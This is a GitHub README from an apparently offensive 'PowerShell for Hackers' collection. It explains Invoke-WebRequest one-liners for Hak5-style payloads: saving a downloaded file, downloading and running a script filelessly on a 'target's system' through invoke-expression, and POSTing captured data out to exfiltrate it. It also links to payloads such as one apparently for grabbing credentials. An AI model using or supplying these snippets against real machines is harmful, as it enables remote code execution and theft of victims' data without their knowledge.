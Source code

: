 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

Appreciate [UberGuidoZ](https://github.com/UberGuidoZ) for contributing to this function.

# Invoke-WebRequest

## Description

These functions are used to either download or upload files or data

## The Function

### [IWR-Save] 

This formatting of the IWR function will download a file from a selected URL and save it to the directory of your choosing 

This is helpful if you are trying to save an image or sound file to use in your script

------------------------------------------------------------------------------------------------------------------------------

$env:TMP\   

Use this environment variable to save the file to your Temp directory

$Env:USERPROFILE\Desktop\    

Use this environment variable to save a file to your desktop

```
iwr < Your url for the intended file>?dl=1 -O $Env:USERPROFILE\Desktop\image.jpg
```

### [IWR-Fileless] 

This formatting of the IWR function will download a file and execute it immedietely without saving it to memory

This is helpful if you are trying to download and execute a script without keeping it on the target's system

```
$pl = iwr < Your url for the intended file>?dl=1; invoke-expression $pl
```

### [IWR-Post] 

This formatting of the IWR function will exfiltrate data via a DNS/POST

This is helpful if you are trying to exfiltrate the data you have captured

[Request Catcher](https://requestcatcher.com/)<-------Helpful website to test POST requests

```
iwr -Uri < Your url for posting the intended data> -Method POST -Body "text to upload"
```

<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 

Listed below are payloads that have used one of these functions:

[Acid Burn](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-AcidBurn)

[JumpScare](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-JumpScare)

[WallPaper-Troll](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-Wallpaper-Troll)

[Credz-Plz](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-Credz-Plz)

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>
  
  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 
  
  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>
  
  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>
  
  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>
  
  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

</p>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)

***

[HOME-PAGE](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)

<p align="right">(<a href="#top">back to top</a>)</p>
